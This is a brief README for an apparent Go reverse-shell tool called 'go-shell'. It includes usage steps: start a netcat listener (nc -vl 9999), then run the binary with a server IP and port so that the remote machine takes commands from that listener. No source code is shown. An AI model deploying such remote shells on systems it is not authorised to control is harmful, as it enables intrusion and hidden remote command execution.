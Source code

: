 # go-shell
Simple, stupid reverse shell on Golang

# How to use
* Compile
* On server side you must run a listener for example (nc -vl 9999)
* Run binary file and set server ip and server port as arguments (ex. ./my-shell 192.168.0.1 9999)
* At now you can execute command on server, and their commands will send to remote shell, and answer will send to your server. 

